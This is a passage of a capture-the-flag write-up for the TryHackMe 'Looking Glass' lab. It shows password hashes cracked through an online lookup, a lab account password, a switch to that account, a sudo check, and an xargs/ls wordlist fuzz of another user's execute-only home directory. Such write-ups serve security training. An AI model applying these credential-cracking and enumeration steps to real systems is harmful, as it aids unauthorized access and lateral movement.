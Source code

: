 Given this text looks like a hash of some form, we can attempt to decrypt
them by looking them up in a list of cracked hashes using [hashes.com]
(https://hashes.com/en/decrypt/hash).

```
28391d3bc64ec15cbb090426b04aa6b7649c3cc85f11230bb0105e02d15e3624:of
5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8:password
7692c3ad3540bb803c020b3aee66cd8887123234ea0c6e7143c0add73ff431ed:one
b808e156d18d1cecdcc1456375f8cae994c36549a07c8c2315b473dd9d7f404f:these
b9776d7ddf459c9ad5b0e1d6ac61e27befb5e99fd62446677600d7cacef544d0:the
dcfff5eb40423f055a4cd0a8d7ed39ff6cb9816868f5766b4088b9e9906961b9:maybe
fa51fd49abf67705d6a35d18218c115ff5633aec1f9ebfdc9d5d4956416f57f6:is
7468652070617373776f7264206973207a797877767574737271706f6e6d6c6b:the password is zyxwvutsrqponmlk
```

We now have the password for humptydumpty user account. We can switch accounts to humptydumpty.

```
su humptydumpty
```

### humptydumpty privesc enumeration

With access to humptydumpty's account, we see if we can achieve priviledge escalation or move laterally to another account. 

A check of sudo permissions:

```
humptydumpty@looking-glass:~$ sudo -l
[sudo] password for humptydumpty: 
Sorry, user humptydumpty may not run sudo on looking-glass.
```

No sudo permissions. It was noted earlier by the team that alice's directory had the execute bit set for all users. 

```
humptydumpty@looking-glass:/home$ ll
total 32
drwxr-xr-x  8 root         root         4096 Jul  3  2020 ./
drwxr-xr-x 24 root         root         4096 Jul  2  2020 ../
drwx--x--x  6 alice        alice        4096 Jul  3  2020 alice/
drwx------  2 humptydumpty humptydumpty 4096 Jul  3  2020 humptydumpty/
drwxrwxrwx  5 jabberwock   jabberwock   4096 Aug 24 10:06 jabberwock/
drwx------  5 tryhackme    tryhackme    4096 Jul  3  2020 tryhackme/
drwx------  3 tweedledee   tweedledee   4096 Jul  3  2020 tweedledee/
drwx------  2 tweedledum   tweedledum   4096 Jul  3  2020 tweedledum/
```

Because of this misconfiguration it is possible to perform file enumeration fuzzing for hits on expected filenames using `ls`. 

We can use `xargs` to fuzz the directory using `ls` and a wordlist we specify. 

```
xargs < /home/humptydumpty/wordlist -I fuzz ls -al /home/alice/"fuzz"
```
